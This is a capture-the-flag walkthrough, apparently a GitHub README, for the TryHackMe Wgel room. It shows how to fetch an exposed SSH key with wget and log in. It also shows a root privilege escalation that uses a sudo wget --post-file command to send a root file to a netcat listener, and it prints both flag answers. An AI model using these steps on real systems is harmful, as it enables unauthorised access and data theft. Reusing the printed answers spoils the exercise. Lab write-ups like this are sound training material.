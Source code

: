 # TryHackMe Wgel CTF
**Can you exfiltrate the root flag?**

## Task-1 Wgel CTF

* Starting with enumeration, I performed nmap scan and gobuster on this. Nmap showed only two ports - '22' and '80'. Port '22' is for ssh means we have to find username and password to login. So I opened the ip in website which was a static apache webpage. But it was something different. Configuration layout was not complete. So I view the page source amd got this line - '<!-- Jessie don't forget to udate the webiste -->'. So we have a user named 'jessie'. 

* For gobuster scan I used /dirb/common.txt/ worrdlist which gave a '/sitemap/'' directory which on further enumeration gave a file named '.ssh'. So i opened it and it gave me a private key which we can use to login into ssh. So type '*wget http://<IP>/sitemap/.ssh/id_rsa*' in your terminal. So the file will be downloaded and now type 'ssh -i id_rsa jessie@<IP>' and you will have access to jessie's shell.

* Now search for user flag using 'find -name '*user*'' and you will see 'user_flag.txt' in Documents folder. Now cat the flag using '*cat ./Documents/user_flag.txt*' which is the answer to our 1 question.

1. User flag<br>
Answer : 057c67131c3d5e42dd5cd3075b198ff6

* Now type 'sudo -l' for user privileges. We see that user can run '/usr/bin/wget'. So I searched for this on google and got something on https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/ . So first copy this payload 'sudo /usr/bin/wget --post-file=/root/root_flag.txt <IP>:8888'. We have to search for 'root_flag' because this is the format which we got from 'user_flag.txt'. So open your nc connection in your local terminal using command 'nc -lnvp 8888' and fire the above command in 'jessie' terminal. You will see the flag in your local terminal. 

2. Root flag<br>
Answer : b1b968b37519ad1daa6408188649263d*